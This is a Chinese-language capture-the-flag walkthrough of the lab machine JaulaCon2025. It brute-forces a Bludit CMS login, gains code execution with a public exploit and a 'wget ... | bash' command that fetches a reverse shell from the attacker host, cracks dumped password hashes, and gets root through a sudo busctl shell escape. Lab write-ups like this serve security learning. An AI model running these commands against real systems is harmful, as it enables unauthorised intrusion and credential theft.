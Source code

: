 # JaulaCon2025

2025.03.29 https://thehackerslabs.com/jaulacon2025/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

jaulacon2025.thl 添加到hosts中， 发现 CMS BLUDIT 3.9.2 有一些漏洞但是都需要有登陆凭据。

https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass/blob/main/exploit.py

经过搜索这个cms默认管理员是admin，但是没有爆破出来登陆密码。在首页上只有一个显示Jaulacon2025 ，也可能是用户名的提示，尝试爆破登陆密码:
```
python3 exploit.py -l http://jaulacon2025.thl/admin/login.php -u user -p ~/tools/dict/pass5000.txt|grep -A 3 -B 3 'SUCCESS'

Brute Force: Testing -> Jaulacon2025:cassandra
```

获得凭据后，可以执行rce，得到反弹的shell:
```
searchsploit -m 48568

python3 48568.py -u http://jaulacon2025.thl -user Jaulacon2025 -pass cassandra -c 'wget -q -O- http://192.168.5.3/shell/5.3/8888.sh|bash'
```

普通用户 JaulaCon2025 目录中的user flag 目前没权限读取。在web管理后台上发现也创建了一个JaulaCon2025用户，可能密码相同，寻找这个web用户的密码。

www-data@JaulaCon2025:/var/www/html/bl-content/databases$ cat users.php

```json
"admin": {
        "password": "67def80155faa894bfb132889e3825a2718db22f",
        "salt": "67e2f74795e73",
    },
"Jaulacon2025": {
        "password": "a0fcd99fe4a21f30abd2053b1cf796da628e4e7e",
        "salt": "bo22u72!",
    },
"JaulaCon2025": {
        "password": "551211bcd6ef18e32742a73fcb85430b",
        "salt": "jejej",
    }
```

这里发现它的密码加密算法: https://raw.githubusercontent.com/bludit/password-recovery-tool/master/recovery.php
```
$salt = uniqid();
$password = md5(uniqid());
$passwordHash = sha1($password.$salt);
$decode['admin']['salt'] = $salt;
$decode['admin']['password'] = $passwordHash;
$decode['admin']['role'] = 'admin';
```

对应hashcat中模式是 110 ,  551211bcd6ef18e32742a73fcb85430b:jejej 但是没出来，哈希长度都不对。 看看能不能找到 551211bcd6ef18e32742a73fcb85430b 的明文，结果是 Brutales ，可以切换到JaulaCon2025

拿到user flag：
```
JaulaCon2025@JaulaCon2025:~$ cat  user.txt 
368409a919088e8707d0617365156184  -
```

sudo -l /usr/bin/busctl
```
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
```

拿到root：
```
# cat root.txt
097fac9db83a1806f3355cf95227992a  -
```